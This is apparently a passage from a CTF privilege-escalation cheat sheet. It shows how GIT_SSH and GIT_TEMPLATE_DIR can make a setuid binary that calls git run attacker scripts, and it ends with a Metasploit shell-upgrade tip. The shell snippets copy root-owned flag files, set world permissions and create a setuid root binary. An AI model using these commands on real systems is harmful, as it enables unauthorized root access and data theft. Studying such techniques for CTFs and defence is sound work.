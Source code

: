 If either (GIT_SSH or GIT_SSH_COMMAND) of these environment variables is set then git fetch and git push will use the specified command instead of ssh when they need to connect to a remote system. The command will be given exactly two or four arguments: the username@host (or just host) from the URL and the shell command to execute on that remote system, optionally preceded by -p (literally) and the port from the URL when it specifies something other than the default SSH port. $GIT_SSH_COMMAND takes precedence over $GIT_SSH, and is interpreted by the shell, which allows additional arguments to be included.  $GIT_SSH on the other hand must be just the path to a program (which can be a wrapper shell script, if additional arguments are needed).

```none
echo '#!/bin/bash' > cmd
echo 'cp /root/flag.txt /tmp' >> cmd
echo 'chmod 777 /tmp/flag.txt' >> cmd
GIT_SSH=/home/username/cmd ./setuidbinary(utilizing git clone/ git fetch)
```

or

```none
echo 'chown root:root /home/username/priv ; chmod 4755 /home/username/priv' > ssh
```

where priv is binary compiled from suid.c

This basically changes the command from

```none
trace: built-in: git 'clone' 'ssh://root@machine-dev:/root/secret-project' '/mnt/secret-project/'
```

to

```none
trace: run_command: '/home/user/ssh' 'root@machine-dev' 'git-upload-pack '\''/root/secret-project'\'''
```

#### GIT_TEMPLATE_DIR

Files and directories in the template directory whose name do not start with a dot will be copied to the $GIT_DIR after it is created. Refer [Git-init](https://git-scm.com/docs/git-init)

```none
cp -r /usr/share/git-core/templates/ mytemplates
cd mytemplates/hooks
echo '#!/bin/bash' > post-checkout
echo 'cp /root/flag /tmp/flag2' >> post-checkout
echo 'chown username.username /tmp/flag2' >> post-checkout
chmod +x post-checkout
cd ../..
GIT_TEMPLATE_DIR=/home/username/mytemplates/ ./setuidbinary( utilizing git clone/ git fetch)
```

### Metasploit shell upgrade

In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in a VM), we can upgrade it to meterpreter by using sessions -u
